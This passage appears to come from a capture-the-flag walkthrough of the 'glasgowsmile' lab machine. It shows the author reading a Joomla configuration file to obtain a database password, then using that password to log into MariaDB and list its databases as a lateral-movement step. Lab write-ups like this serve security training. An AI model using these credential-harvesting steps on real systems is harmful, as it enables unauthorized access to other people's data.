 # Lateral move (www-data -> rob)

## MySQL connection details

Now connected as `www-data`, we obviously want to switch to a user that is in the `/home` directory. Analyzing the Joomla configuration file will disclose the database connection details:

~~~
www-data@glasgowsmile:/var/www/joomla2$ cat configuration.php
cat configuration.php
<?php

  [REDACTED]

  public $dbtype = 'mysqli';
  public $host = 'localhost';
  public $user = 'joomla';
  public $password = 'babyjoker';
  public $db = 'joomla_db';
  public $dbprefix = 'jnqcu_';

  [REDACTED]
~~~

## MySQL Databases

Let's use the credentials to connect to the database and list the databases we can access:

~~~
}www-data@glasgowsmile:/var/www/joomla2$ mysql -u joomla -p
mysql -u joomla -p
Enter password: babyjoker

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 66
Server version: 10.3.22-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| batjoke            |
| information_schema |
| joomla_db          |
| mysql              |
| performance_schema |
+--------------------+
5 rows in set (0.003 sec)
~~~
